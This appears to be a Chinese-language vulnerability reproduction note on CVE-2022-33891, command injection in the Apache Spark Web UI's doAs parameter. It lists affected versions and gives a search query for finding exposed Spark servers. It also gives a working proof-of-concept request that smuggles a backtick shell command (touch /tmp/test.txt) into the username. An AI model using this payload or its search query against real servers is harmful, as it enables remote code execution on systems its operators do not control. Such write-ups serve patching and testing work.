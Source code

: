 # Apache Spark doAs 远程命令执行漏洞 CVE-2022-33891

## 漏洞描述

Apache Spark 支持启动 ACL 来为 Web UI 访问提供身份验证，当 ACL 启动时可以通过构造特殊请求用户名导致 RCE

## 漏洞影响

```
Spark Core - Apache <=3.0.3
3.1.1 <= Spark Core - Apache <=3.1.2
3.2.0 <= Spark Core - Apache <=3.2.1
```

## 网络测绘

```
app="APACHE-Spark"
```

## 漏洞复现

主页面

![image-20220909104326093](./images/202209091043173.png)

验证POC

```
/jobs/?doAs=`touch /tmp/test.txt`
```

![image-20220909104423065](./images/202209091044113.png)